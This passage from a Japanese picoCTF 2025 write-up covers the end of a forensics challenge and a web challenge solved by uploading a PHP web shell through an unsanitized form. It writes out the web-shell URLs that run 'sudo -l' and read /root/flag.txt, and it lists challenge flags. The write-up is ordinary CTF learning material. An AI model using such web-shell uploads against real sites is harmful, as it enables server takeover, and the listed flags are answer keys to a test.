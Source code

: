 <br /><br />

ここからは、Windows PC の AutoPsy を使いました。

先ほど見つかったパスワードを使って、ファイルの中身を見ていくと、flag.txtが見つかります。

<img src="https://captureamerica.github.io/writeups/img/picoctf_2025_AutoPsy.png" alt="picoctf_2025_AutoPsy.png">


<br /><br />

Flag: `picoCTF{us3_b3tt3r_p4ssw0rd5_pl5!_3242adb1}`



<br /><br />
<br /><br />
## [Web]: n0s4n1ty 1 (100 points)
- - -
### Challenge
> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
<br /><br />
Hint1: File upload was not sanitized
<br />
Hint2: Whenever you get a shell on a remote machine, check sudo -l

<br />

### Solution

サニタイズがされていないので、PHP の Web shell をアップロードして、それを使うだけです。

a.phpというファイルを作ってアップロードしました。

<br />

<img src="https://captureamerica.github.io/writeups/img/picoctf_2025_aphp.png" alt="picoctf_2025_aphp.png" width=300 height=60>

<br /><br />

<pre>
http://standard-pizzas.picoctf.net:51712/uploads/a.php?cmd=sudo -l
http://standard-pizzas.picoctf.net:51712/uploads/a.php?cmd=sudo cat /root/flag.txt
</pre>

<br />

Flag: `picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}`


<br /><br />
<br /><br />
## [Web]: SSTI2 (200 points)
- - -
### Challenge
> I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)<br />
I heard templating is a cool and modular way to build web apps! Check out my website here!
<br /><br />
Hint1: Server Side Template Injection
<br />
Hint2: Why is blacklisting characters a bad idea to sanitize input?
